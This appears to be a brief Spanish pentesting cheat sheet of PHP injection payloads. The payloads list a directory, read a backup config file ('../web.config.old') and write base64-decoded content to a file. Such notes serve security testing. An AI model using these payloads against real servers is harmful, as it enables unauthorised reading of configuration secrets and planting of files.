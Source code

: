 # PHP

## Listar contenido directorio

```null
<?php print_r(scandir(".")); ?>
```

## Obtener contenido de un archivo

```null
<?php echo file_get_contents("../web.config.old"); ?>
```

## Introducir contenido en directorio

```null
<?php file_put_contents("test.txt",base64_decode("Q3VhbHF1aWVyY29zYQo=")); echo 'Test'?>

